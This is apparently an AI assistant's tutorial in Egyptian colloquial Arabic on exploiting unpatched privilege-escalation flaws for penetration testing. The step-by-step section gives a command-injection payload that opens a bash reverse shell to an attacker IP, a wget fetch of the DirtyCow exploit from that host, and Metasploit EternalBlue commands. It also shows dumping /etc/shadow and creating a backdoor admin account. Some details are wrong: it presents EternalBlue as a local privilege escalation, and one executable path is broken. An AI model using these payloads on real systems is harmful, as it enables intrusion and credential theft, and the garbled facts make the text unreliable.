 تمام، هشرح لك "Exploiting Unpatched Privilege Escalation Vulnerabilities" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو Exploiting Unpatched Privilege Escalation Vulnerabilities؟**

#### **الشرح العميق:**
"Exploiting Unpatched Privilege Escalation Vulnerabilities" يعني استغلال ثغرات في تصعيد الصلاحيات (Privilege Escalation) اللي لسه ما اتعمللهاش تحديث (Unpatched) في نظام أو برنامج. الثغرات دي بتكون عيوب في البرمجيات (زي نواة لينكس، ويندوز، أو تطبيقات) بتسمح لمستخدم عادي (Low Privilege) يصير لمستوى أعلى (زي root أو System). "Unpatched" يعني إن الثغرة معروفة (لها CVE مثلًا) بس النظام ما اتحدثش عشان يصلحها، فالمهاجم يقدر يستغلها بسهولة لو عرف إزاي.

- **أمثلة:** DirtyCow (CVE-2016-5195) في لينكس، أو EternalBlue (CVE-2017-0144) في ويندوز.
- **الهدف:** تصعيد الصلاحيات من مستخدم عادي لـ Admin/Root.

#### **الأدوات والأوامر العملية:**
1. **فحص النظام:**
   - لينكس: `uname -r` -> `3.16.0-38-generic` (لو قديم، ممكن يكون متأثر).
   - ويندوز: `systeminfo` -> تشوف الإصدار ومستوى التحديثات.
2. **البحث عن ثغرات:**
   - `searchsploit linux kernel 3.16` ->متاحة Exploits يجيب 
1. **Metasploit:**
   - `msfconsole` -> `search privilege escalation`.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون لقيت خرم في حيطة البيت لسه محدش سده، تدخل منه وتبقى الكبير جوا! Unpatched يعني النظام نايم وما حدثش، فتقدر تطلع الباشا بسهولة."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
الثغرات دي خطيرة لأنها بتفتح الباب للمهاجم يتحكم في النظام كله لو ما اتعمللهاش Patch. يعني:
- **تصعيد صلاحيات:** من مستخدم عادي لـ root/System.
- **تحكم كامل:** يسرق بيانات، يزرع Backdoors، أو يخرب النظام.
- **انتشار أوسع:** يستخدم النظام المخترق كقاعدة لمهاجمة أنظمة تانية.

في الـ Pentesting، الثغرات اللي ما اتحدثتش بتكون ذهب لأنها بتديك طريق سريع للوصول للقمة لو النظام متأخر في التحديثات.

#### **الأدوات والأوامر العملية:**
1. **فحص الثغرات:**
   - لينكس: `cat /etc/os-release` + `uname -r` -> قارن بالـ CVEs.
   - ويندوز: `wmic qfe list` -> لو ما لقيتش تحديثات حديثة، ابحث عن Exploits.
2. **تشغيل Exploit:**
   - لو لقيت CVE-2016-5195 (DirtyCow):
     - `gcc -pthread dirty.c -o dirtycow && ./dirtycow`.
3. **Metasploit مثال:**
   - `use exploit/windows/local/ms10_092_schelevator` -> لو ويندوز قديم.

#### **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون سايب باب البيت مكسور وما صلحتوش، أي حد يخش ياخد كل حاجة! المهاجم يلاقي الثغرة دي، يبقى الكبير بتاع النظام في ثواني."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الثغرات اللي ما اتعمللهاش Patch عشان تصعد صلاحياتك من مستخدم عادي لـ Admin/Root.
- **مثال واقعي:** لو لقيت سيرفر لينكس قديم متأثر بـ DirtyCow، تشغل الـ Exploit وتاخد root.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي ثغرة زي دي، زي ما تكون لقيت كنز في لعبة، تستخدمه وتبقى الكبير بتاع الماتش من غير ما حد يحس!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 (لينكس).
  - Port 445: SMB (ويندوز).

#### **الخطوة 2: الوصول الأولي**
- لو لقيت ثغرة ويب:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id` -> لو رجع `www-data`:
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.

#### **الخطوة 3: التحقق من الإصدار**
- في لينكس:
  - `uname -r` -> `3.16.0-38-generic` (متأثر بـ DirtyCow مثلًا).
- في ويندوز:
  - `systeminfo | findstr "OS Version"` -> `6.1.7600` (Windows 7 بدون SP1، متأثر بـ MS17-010).

#### **الخطوة 4: البحث عن Exploit**
- لينكس:
  - `searchsploit linux kernel 3.16` -> يجيب DirtyCow (CVE-2016-5195).
- ويندوز:
  - `searchsploit windows 7 privilege` -> يجيب MS17-010 (EternalBlue).

#### **الخطوة 5: تشغيل الـ Exploit**
- **في لينكس (DirtyCow):**
  - `wget http://192.168.1.100/dirty.c -O /tmp/dirty.c`.
  - `gcc -pthread /tmp/dirty.c -o /tmp/dirtycow`.
  - `./tmp/dirtycow` -> يضيف مستخدم `firefart` كـ root.
  - `su firefart` -> كلمة السر `firefart` -> `id` -> `uid=0(root)`.
- **في ويندوز (MS17-010):**
  - `msfconsole`.
  - `use exploit/windows/smb/ms17_010_eternalblue`.
  - `set RHOSTS 192.168.1.10`.
  - `set LHOST 192.168.1.100`.
  - `exploit` -> Shell كـ `SYSTEM`.

#### **الخطوة 6: استغلال وتوثيق**
- كـ root/System:
  - لينكس: `cat /etc/shadow` -> تسريب كلمات السر.
  - ويندوز: `net user hacker pass123 /add && net localgroup administrators hacker /add`.
- سجل الثغرة (مثل CVE-2016-5195) والإصدار المتأثر في تقريرك.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت سلاح قوي في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! الثغرات اللي ما اتحدثتش طريقك للفوز بسهولة لو لقيتها."

---

### **الخلاصة النهائية:**
Exploiting Unpatched Privilege Escalation Vulnerabilities هي طريقة خطيرة وفعالة لتصعيد الصلاحيات لو النظام ما اتحدثش. في الـ Pentesting، دور على الإصدارات القديمة بـ `uname` أو `systeminfo`، استخدم أدوات زي Searchsploit أو Metasploit عشان تشغل الـ Exploits، ووري 
العميل إن نظامه زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!


